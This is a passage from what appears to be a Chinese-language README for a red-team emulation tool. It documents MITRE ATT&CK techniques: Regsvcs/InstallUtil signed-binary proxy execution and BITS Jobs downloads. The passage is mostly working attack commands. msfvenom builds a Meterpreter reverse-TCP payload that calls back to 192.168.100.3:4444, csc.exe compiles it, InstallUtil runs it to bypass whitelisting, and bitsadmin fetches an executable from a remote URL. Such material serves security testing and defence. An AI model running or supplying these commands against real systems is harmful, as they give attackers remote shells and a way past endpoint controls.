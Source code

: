 dll文件可以自己生成，先生成C#的shellcode，然后使用csc.exe编译

```cmd
msfvenom –platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.100.3   LPORT=4444 -f csharp -o xxxx.cs
C:Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll   /target:library /out:xxxx.dll /keyfile:key.snk xxxx.cs
```

#### Parameters

| **Parameter** | **Description**                                    |
| ------------- | -------------------------------------------------- |
| filePath      | 需要执行的dll文件路径，默认`C:\Windows\Temp\files\T1218.009.dll` |



### [T1218.004](https://attack.mitre.org/techniques/T1218/004/) - Signed Binary Proxy Execution: InstallUtil

This module uses the CreateProcess Win32 API to execute

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfiles /LogToConsole=alse /U $filePath
```

exe文件生成方式：生成cs文件然后用csc.exe编译，InstallUtil.py项目地址：[https://github.com/khr0x40sh/WhiteListEvasion.git](https://link.zhihu.com/?target=https%3A//github.com/khr0x40sh/WhiteListEvasion.git)

```
msfvenom –platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.100.3   LPORT=4444 -f csharp -o xxxx.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319>csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:xxxx.exe /unsafe xxxx.cs
```

#### Parameters

| **Parameter** | **Description**                                    |
| ------------- | -------------------------------------------------- |
| filePath      | 需要执行的exe文件路径，默认`C:\Windows\Temp\files\T1218.004.exe` |



### [T1197](https://attack.mitre.org/techniques/T1197/) - BITS Jobs

This module uses the CreateProcess Win32 API to execute

```cmd
bitsadmin.exe /transfer job /download /priority high $url $filePath
```

#### Parameters

| **Parameter** | **Description**                                          |
| ------------- | -------------------------------------------------------- |
| url           | 需要下载文件的url，默认http://100.1.1.169:8080/T1197.exe |
| filePath      | 保存文件路径，默认C:\Windows\Temp\files\T1197.exe          |
